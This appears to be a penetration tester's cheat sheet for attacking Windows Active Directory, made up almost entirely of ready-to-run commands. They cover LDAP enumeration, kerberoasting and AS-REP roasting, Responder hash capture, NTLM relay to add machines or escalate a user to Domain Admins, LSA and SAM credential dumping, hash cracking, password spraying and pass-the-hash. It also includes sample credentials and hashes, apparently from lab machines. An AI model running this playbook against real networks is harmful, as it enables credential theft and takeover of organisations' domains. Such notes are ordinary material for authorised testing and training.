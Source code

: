 ```
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host> --admin-count
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --asreproast ASREPROAST
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --groups
crackmapexec ldap'<IP> -u <User> -p <Password> --kdcHost <Host>  --kerberoasting KERBEROASTING
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --password-not-required
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --trusted-for-delegation
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host>  --users

# Modules
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host> -M get-desc-users
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host> -M laps
crackmapexec ldap <IP> -u <User> -p <Password> --kdcHost <Host> -M ldap-signing
```
### Antivirus
See [Abusing Exclusions To Evade Detection _ Dazzy Ddos.pdf](../Evasion%20and%20Data%20Exfiltration/Abusing%20Exclusions%20To%20Evade%20Detection%20_%20Dazzy%20Ddos.pdf)
1. `sc query windefend`
>Query the Service Control Manager for Windows Defender
>>I couldn't find a list of Anti-Virus service names online :(
2. `nxc smb <ip> -u user -p pass -M enum_av`
### Domain SID
1. `nxc ldap DC1.scrm.local -u sqlsvc -p Pegasus60 -k --get-sid`
2. `whoami /user`
3. PowerShell(Requires Active Directory Module)
	1. Direct retrieval: `(Get-ADDomain).DomainSID.Value`
	2. From user object: `(Get-ADUser "Username").SID.AccountDomainSID`

---
# Uncredentialed Initial Attack Vectors
## First Strike (NTLM Relay, SMB)
1. **Obtain an NTLMv2 Hash via Responder:** `sudo responder -I eth0 -dw`
	- LLMNR Poisoning via `responder` captures NTLMv2 hashes whenever any user tries accessing a machine/file/share and mistypes the IP or hostname.
		- Great to run when computers are logging in, like 8AM, or lunchtime.
		- (Reminder) Entire Hash format required: `username::DOMAIN:string:string:string`
		- Attempt cracking NTLMv2 hash: `hashcat -m 5600 luvrgirl.ntlmv2hashes /usr/share/wordlists/rockyou.txt`
	- **If the hash is not crackable, move to step 2.**
2. **Check for SMB signing requirements with [NetExec](https://www.netexec.wiki/):** `nxc smb 10.0.2.0/24 --gen-relay targets.txt`
	- **Relay to LDAP:** Auto-dump domain users, groups, and computers: `ntlmrelayx.py -t ldap://DC_IP --add-computer workstation20 --delegate-access`
		- Add user to **Domain Admins** or other privileged group: `ntlmrelayx.py -t ldap://DC_IP --escalate-user USERNAME`
3. **Dump Local Security Authority (LSA):** `nxc smb 10.0.2.9 -u luvrgirl -p Password --lsa` 
	- Attempt cracking DCC2 Hashes: `.\hashcat.exe -m 2100 hash.txt rockyou.txt -O`
		- DCC2 Hash format must be as such in file: `$DCC2$10240#administrator#c7154f935b7d1ace4c1d72bd4fb7889c`
4. **Dump Security Account Manager:** `nxc smb 10.0.2.9 -u luvrgirl -p Password1 --sam`
5. **Move Laterally:** with NetExec
	- Password Spraying: `nxc smb 10.0.2.0/24 -u luvrgirl -p 'Password1'` 
	- *Check for Local Admin Password reuse* via Hash Spraying: `nxc smb 10.0.2.0/24 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71 --local-auth`  
### Tools
> Commonly used tools and commands
#### Responder
`sudo responder -I eth0 -dw`
> Capture NTLMv2 hashes: WPAD rogue proxy server w/ DHCP broadcast request answering